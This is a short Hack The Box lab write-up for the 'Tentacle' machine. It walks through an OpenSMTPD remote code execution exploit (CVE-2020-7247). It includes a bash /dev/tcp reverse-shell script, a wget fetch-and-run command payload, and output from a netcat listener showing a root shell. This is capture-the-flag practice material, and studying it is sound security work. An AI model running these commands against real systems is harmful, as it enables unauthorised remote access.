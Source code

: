 # Enumeration-
Googling for “opensmtpd exploit” returns a remote code execution exploit from [Exploit-DB](https://www.exploit-db.com/exploits/47984), CVE-2020-7247.

# Exploit-
We just have to chnange the receipient from root to `j.nakazawa@realcorp.htb`-

FROM-
```bash
print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
```

TO-
```bash
print('[*] Payload sent')
s.send(b'RCPT TO:<j.nakazawa@realcorp.htb>\r\n')
```

# Shell-
shell.sh
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.82/9001 0>&1
```

While hosting a python server and listening on netcat we got our shell-

```bash
root@napster:~/Documents/HTB/Tentacle# proxychains python3 smtp_exploit.py 10.241.251.113 25 'wget 10.10.14.82/shell.sh -O /dev/shm/shell.sh; bash /dev/shm/shell.sh'
ProxyChains-3.1 (http://proxychains.sf.net)
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

```bash
root@napster:~/Documents/HTB/Tentacle# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.224 - - [26/Jun/2021 17:52:15] "GET /shell.sh HTTP/1.1" 200 -
```

```bash
root@napster:~/Documents/HTB/Tentacle# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.82] from (UNKNOWN) [10.10.10.224] 46284
bash: cannot set terminal process group (13): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# 
```


![[Pasted image 20210626175713.png]]